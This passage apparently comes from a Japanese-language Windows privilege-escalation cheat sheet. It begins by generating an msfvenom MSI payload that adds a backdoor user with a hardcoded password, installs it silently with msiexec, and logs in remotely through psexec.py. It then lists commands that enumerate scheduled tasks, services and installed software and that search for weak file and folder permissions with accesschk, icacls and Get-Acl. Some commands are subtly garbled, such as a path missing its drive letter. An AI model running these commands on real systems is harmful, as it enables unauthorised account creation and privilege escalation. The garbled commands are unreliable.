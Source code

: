 ```bash
msfvenom -p windows/adduser USER=hodor PASS=Qwerty123! -f msi -o hodor.msi
```

msiを実行します。

```cmd
msiexec /quiet /qn /i C:\hodor.msi
psexec.py "<domain>/hodor:Qwerty123!"@<IP>
```


#### スケジュールタスク

```cmd
#スケジュールされたタスクを一覧表示
schtasks /query /fo LIST /v
#実行中のプロセスとサービスを一覧表示
Tasklist /SVC 
#"システム "プロセスをフィルタリングする
tasklist /v /fi "username eq system" 
```

#### インストールされているアプリケーション

```bash
dir /a "C:\Program Files"
dir /a "C:\Program Files (x86)"
reg query HKEY_LOCAL_MACHINE\SOFTWARE

Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime
Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name
```

アプリケーションの権限を確認する

```cmd
accesschk.exe /accepteula 

# ドライブごとに弱いフォルダのパーミッションをすべて検索します.
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\
accesschk.exe -uwdqs "Everyone" c:\

# ドライブごとの弱いファイルパーミッションをすべて検索します.
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uwqs "Authenticated Users" c:\*.*
accesschk.exe -uwdqs "Everyone" c:\*.*


icacls "C:\Program Files\*" 2>nul | findstr "(F) (M) :\" | findstr ":\ everyone authenticated users todos %username%"
icacls ":\Program Files (x86)\*" 2>nul | findstr "(F) (M) C:\" | findstr ":\ everyone authenticated users todos %username%"


Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'Everyone'} } catch {}} 

Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'BUILTIN\Users'} } catch {}}
```
